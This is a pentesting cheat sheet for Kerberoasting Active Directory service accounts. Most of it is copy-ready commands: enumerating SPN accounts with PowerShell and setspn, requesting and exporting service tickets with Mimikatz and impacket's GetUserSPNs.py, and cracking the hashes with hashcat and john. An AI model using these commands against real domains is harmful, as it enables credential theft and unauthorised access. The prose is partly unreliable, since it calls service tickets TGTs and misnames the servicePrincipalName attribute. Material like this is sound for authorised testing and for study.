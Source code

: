 # Kerberoast

Send a request to a TGT for a Kerberos token, dump it from memory, crack it locally to obtain access to the target. The TGT can also be used to forge a Silver Ticket and gain access to the service machine. Vulnerable accounts need to have the flag `serverPrincipalName` set.

## Exploit

### Windows machine

Vulnerable users in domain

```
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl

get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}
get-adobject -filter {serviceprincipalname -ne $null} -prop serviceprincipalname

setspn -T <domain> -Q */*
```

Enumerate past remote sessions on local machine

```
klist
```

Request a Service Ticket from the target. The ticket will be stored in memory

```
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"
```

Dump the SPN ticket using Mimikatz

```
privilege::debug
token::elevate
kerberos::list /export
```

### \*nix machine

Enumerate vulnerable accounts. Requires a valid user and password

```
GetUserSPNs.py <domain>/<user>:<pass>            #check user
GetUserSPNs.py -dc-ip <DC IP> <domain>/<user>    #query the DC
```

Dump TGT

```
GetUserSPNs.py <domain>/<user>:<pass> -request  #dump TGTs of current user
GetUserSPNs.py -dc-ip <DC IP> <domain>/<user> -request-user <target user> #dump TGTs of target user
```

## Crack hash

Crack the .kirbi file or hash received from impacket

```
hashcat -m 13100 --force <hashfile> <wordlist>
john --format=krb5tgs --wordlist=<wordlist> <hashfile>    #requires jumbo version
```
